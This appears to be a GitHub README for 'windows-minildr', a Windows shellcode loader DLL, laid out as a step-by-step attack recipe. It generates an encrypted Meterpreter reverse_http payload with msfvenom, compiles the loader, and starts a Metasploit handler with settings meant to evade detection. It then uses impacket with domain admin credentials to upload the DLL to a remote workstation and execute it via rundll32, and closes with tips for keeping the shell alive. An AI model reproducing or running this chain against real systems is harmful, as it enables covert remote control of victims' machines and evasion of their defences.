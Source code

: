 # windows-minildr

Generate payload.

~~~ bash
echo -n secret > ./key.bin
msfvenom --payload windows/x64/meterpreter/reverse_http --encrypt xor --encrypt-key "$(< ./key.bin)" --format raw --out ./buf.bin LHOST=192.168.178.42 LPORT=1337
~~~

Compile loader.

~~~ bash
x86_64-w64-mingw32-g++ -m64 -Wall -Wextra -std=c++20 -lstdc++ -static -Os -s -shared -o ./minildr.dll ./minildr.cpp
~~~

Start listener and evade basic detections when using Meterpreter ([source](https://twitter.com/lpha3ch0/status/1630213398397874178)).

~~~ bash
msfconsole -q -x 'use exploit/multi/handler;
set LHOST 192.168.178.42;
set LPORT 1337;
set PAYLOAD windows/x64/meterpreter/reverse_http;
set EnableStageEncoding true;
set StageEncoder x64/zutto_dekiru;
set AutoLoadStdapi false;
set ExitFunc thread;
run'
~~~

Execute loader.

~~~ bash
impacket-smbclient -file /dev/stdin corp.com/jdoeadm:'passw0rd'@ws01.corp.com << 'EOF'
use c$
cd windows
put minildr.dll
ls
EOF
impacket-atexec -silentcommand corp.com/jdoeadm:'passw0rd'@ws01.corp.com 'rundll32.exe C:\Windows\minildr.dll,DllInstall'
~~~

After you received the connection run `load stdapi` in the Meterpreter shell.

When your shell terminates shortly after you receive the connection run `migrate -N explorer.exe` in the Meterpreter shell or `set AutoRunScript post/windows/manage/migrate` on the handler.
